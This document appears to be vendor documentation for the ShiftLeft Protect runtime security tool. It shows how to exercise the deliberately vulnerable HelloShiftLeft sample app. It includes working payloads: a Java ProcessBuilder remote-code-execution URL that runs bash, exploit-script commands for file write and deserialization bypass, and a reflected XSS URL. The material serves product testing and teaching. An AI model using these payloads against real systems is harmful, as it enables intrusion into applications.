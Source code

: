 # Securing Your Applications Using ShiftLeft Protect

ShiftLeft Protect secures applications against exploitation of vulnerabilities by leveraging "code informed" insights. ShiftLeft Protect creates runtime security specifications based on identified vulnerabilities discovered by [ShiftLeft Inspect](../../introduction/products.md) during analysis of your code. ShiftLeft Protect deploys a ShiftLeft Microagent in-memory alongside your application in production (or other environments such as staging, test, UAT). The Microagent is customized to your application's specific shape and weaknesses and connects to a ShiftLeft Proxy server to display events and metrics in the Dashboard.

## Monitoring Mode

You can use ShiftLeft Protect in monitoring mode with your IAST tool.

## Example of ShiftLeft Protect Monitoring

ShiftLeft Protect detects exploits and payload, also blocks and sanitizes, vulnerabilities. For example, vulnerabilites and exposures in the [HelloShiftLeft sample application](../../introduction/helloshiftleft.md) can be tested with API access patterns described below and through example scripts provided in the [exploits directory](https://github.com/ShiftLeftSecurity/HelloShiftLeft/tree/master/exploits). 

### Sensitive Data Leaks to Log

| URL	  | Purpose |
| ------------- | ------------- |
| http://localhost:8081/customers/1 | Returns JSON representation of Customer resource based on Id (1) specified in URL |
| http://localhost:8081/customers | Returns JSON representation of all available Customer resources |
| http://localhost:8081/patients | Returns JSON representation of all available patients in record |
| http://localhost:8081/account/1 | Returns JSON representation of Account based on Id (1) specified |
| http://localhost:8081/account | Returns JSON representation of all available accounts and their details |
	
All the above requests leak sensitive medical and PII data to the logging service. In addition other endpoints such as `/saveSettings`, `/search/user`, `/admin/login` etc. are also available. Along with the list above, users can explore variations of `GET`, `POST` and `PUT` requests sent to these endpoints.

### Remote Code Execution

An RCE can be triggered through the `/search/user` endpoint by sending a `GET` HTTP request as follows:

http://<span></span>localhost:8081/search/user?foo=new java.lang.ProcessBuilder({'/bin/bash','-c','echo 3vilhax0r>/tmp/hacked'}).start()

This creates a file `/tmp/hacked` with the content `3vilhax0r`.

### Arbritary File Write

The [filewriteexploit.py](https://github.com/ShiftLeftSecurity/HelloShiftLeft/blob/master/exploits/filewriteexploit.py) script can be executed as follows to trigger the arbritary file writing through the `/saveSettings` endpoint:

```
$ python2 filewriteexploit.py http://localhost:8081/saveSettings testfile 3vilhax0r
```

This creates a file named `testfile` with `3vilhax0r` as its contents.

### Authentication Bypass

The [exploit.py](https://github.com/ShiftLeftSecurity/helloshiftleft/blob/master/exploits/JavaSerializationExploit/src/main/java/exploit.py) script allows an authentication bypass by exposing a deserialization vulnerability which allows administrator access:

```
$ python2 exploit.py
```

This returns the following sensitive data:

```
Customer;Month;Volume
Netflix;January;200,000
Palo Alto;January;200,000
### XSS
```

A reflected XSS vulnerability exists in the application and can be triggered using the **hidden** `/debug` endpoint as follows:

http://<span></span>localhost:8081/debug?customerId=1&clientId=1&firstName=a&lastName=b&dateOfBirth=123&ssn=123&socialSecurityNum=1&tin=123&phoneNumber=5432alert(1)

It raises and alert dialogue and returns the Customer object data.
